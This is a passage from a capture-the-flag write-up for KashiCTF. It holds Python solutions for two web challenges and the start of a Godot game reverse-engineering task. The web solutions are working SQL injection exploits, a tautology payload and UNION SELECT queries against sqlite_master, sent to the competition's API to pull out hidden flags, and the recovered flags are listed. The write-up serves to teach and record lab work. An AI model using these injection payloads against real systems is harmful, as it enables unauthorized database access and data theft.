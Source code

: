 ```Use the moves as a key to the flag, separated by _```
print(res.text)
# {"message":"KashiCTF{m455_4551gnm3n7_ftw_F1t1dzlov}"}
```
**Flag :  KashiCTF{m455_4551gnm3n7_ftw_F1t1dzlov}**
### Corporate Life 1
```python=
import requests

url = "http://kashictf.iitbhucybersec.in:38209/api/list-v2"

data = {
    'filter' :   "'OR 1=1--"
}
res = requests.post(url,json=data)
a = res.json()
for i in a : 
    if(i.get('status') == 'denied'):
        print(i)
```
**FLAG : KashiCTF{s4m3_old_c0rp0_l1f3_vro3nUAH}**
### Corporate Life 2 : 
```python=
import requests

url = "http://kashictf.iitbhucybersec.in:46641/api/list-v2"

data = {
#    'filter' :   "aabc'UNION SELECT 1,1,1,1,1,(SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%')-- " => FInd flags tables 
#    'filter' :   "aabc'UNION SELECT 1,1,1,1,1,(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='flags')-- "  => Find columns of flags tables 
    'filter' :   "aabc'UNION SELECT 1,1,1,1,1,(SELECT group_concat(secret_flag) from flags) --"  
}
res = requests.post(url,json=data)
print(res.json()[0].get('email').replace(',',''))
```
**Flag : KashiCTF{b0r1ng_old_c0rp0_l1f3_am_1_r1gh7_PbZ8N4Zi}**
# Reverse	

## Game 1 - Untitled Game

This challange is about godot game

![image](https://hackmd.io/_uploads/ryMRLZo9yl.png)

![image](https://hackmd.io/_uploads/HJCC8Zsckx.png)

Extract this Challange.exe file by GDRETools i have:
